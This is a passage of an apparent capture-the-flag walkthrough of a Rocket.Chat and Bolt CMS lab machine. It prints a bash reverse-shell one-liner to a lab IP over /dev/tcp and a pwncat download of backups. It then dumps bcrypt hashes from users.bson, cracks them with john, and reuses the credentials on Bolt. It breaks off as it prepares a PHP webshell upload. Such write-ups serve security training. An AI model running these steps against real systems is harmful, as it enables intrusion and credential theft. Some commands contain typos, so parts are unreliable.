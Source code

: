 ```bash

/bin/bash -i >& /dev/tcp/10.8.98.143/12001 0>&1 #revshell

download /backup /tmp #pwncat command
```
then:
```bash
cd /db_backup/meteor
```
There are a lot files but one is very particulary is called __"users.bson"__ it contains some hashes we can view it with theese commands:
```bash
bsondump users.bson | jq
```
we can see some bcrypt to crack:
```bash
john hash -w=/usr/share/wordlistst/rockyout.txt
```
Terrance hash is crackable the others no.

We have new creds, I tried to use on rocket.chat but they don't works, there was the previous CMS __"Bolt"__ indeed they work

![bolt](./pics/bolt.png)

It's time to upload a webshell but first we should look around the settings, as expected we must allow .php extensions in 
